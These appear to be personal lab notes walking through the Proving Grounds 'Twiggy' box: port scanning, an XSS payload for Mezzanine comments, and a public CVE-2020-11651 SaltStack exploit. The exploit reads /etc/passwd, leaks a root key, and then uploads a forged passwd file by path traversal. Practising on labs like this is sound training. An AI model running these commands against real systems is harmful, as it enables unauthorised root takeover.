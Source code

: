 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Twiggy"
date:   2024-07-23 11:32:11 -0400
categories: oscp proving-grounds TJNull
---
```



192.168.169.62

sudo nmap -sV -sC -p- -oA Twiggy 192.168.169.62

Nmap scan report for 192.168.169.62
Host is up (0.023s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
|_http-title: Home | Mezzanine
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).


=====> port 53
nmap 192.168.169.62 --script=dns-zone-transfer -p 53

└─$ nmap 192.168.169.62 --script=dns-zone-transfer -p 53
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 16:53 EDT
Nmap scan report for 192.168.169.62
Host is up (0.023s latency).

PORT   STATE SERVICE
53/tcp open  domain

Nmap done: 1 IP address (1 host up) scanned in 0.13 seconds



─$ nmap 192.168.169.62 --script=dns-* -p 53            
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 16:54 EDT
Nmap scan report for 192.168.169.62
Host is up (0.025s latency).

PORT   STATE SERVICE
53/tcp open  domain
|_dns-nsec-enum: Can't determine domain for host 192.168.169.62; use dns-nsec-enum.domains script arg.
|_dns-fuzz: Server didn't response to our probe, can't fuzz
|_dns-nsec3-enum: Can't determine domain for host 192.168.169.62; use dns-nsec3-enum.domains script arg.

Host script results:
| dns-blacklist: 
|   SPAM
|     dnsbl.inps.de - FAIL
|   PROXY
|_    tor.dan.me.uk - FAIL
|_dns-brute: Can't guess domain of "192.168.169.62"; use dns-brute.domain script argument.

Nmap done: 1 IP address (1 host up) scanned in 12.19 seconds

============================================================

=======================> port 80
mezzanine cms
/usr/share/exploitdb/exploits/python/webapps/40799.txt


gobuster dir -u 192.168.169.62 -w /usr/share/wordlists/dirb/common.txt

gobuster dir -u http://192.168.169.62 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o Twiggy-dir --exclude-length 0



Leave a comment, as author name use '"><img src=no onerror=alert(1)> To trigger
the payload, view the comment overview in the admin backend: http://
localhost:8000/admin/generic/threadedcomment


=====================================================================

======> port 8000
returns: {"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"}

searching returns https://salt-sproxy.readthedocs.io/en/latest/examples/salt_api.html

found this guy - https://www.exploit-db.com/exploits/48421


https://github.com/jasperla/CVE-2020-11651-poc

after running `pip3 install salt' the following kinda works:

 python3 exploit.py --master 192.168.169.62 --read /etc/passwd 



└─$  python3 exploit.py --master 192.168.169.62 --read /etc/passwd 
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/.local/lib/python3.11/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.169.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: 3J+XIUkNF7hBV4vmBMThrOVNtk/MMCHmT7QoUZ9lmQL9u4EJafv/kEAnCeEpdZRrgO7g2dEL2Ho=
[+] Attemping to read /etc/passwd from 192.168.169.62
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
mezz:x:997:995::/home/mezz:/bin/false
nginx:x:996:994:Nginx web server:/var/lib/nginx:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin



we are gonna make a fake passwd file and upload it

password
$1$SXMne/xK$xUFA6oQva4AG.vIx7wfh40


python3 exploit.py --master 192.168.169.62 --upload-src passwd --upload-dest ../../../../../../../etc/passwd






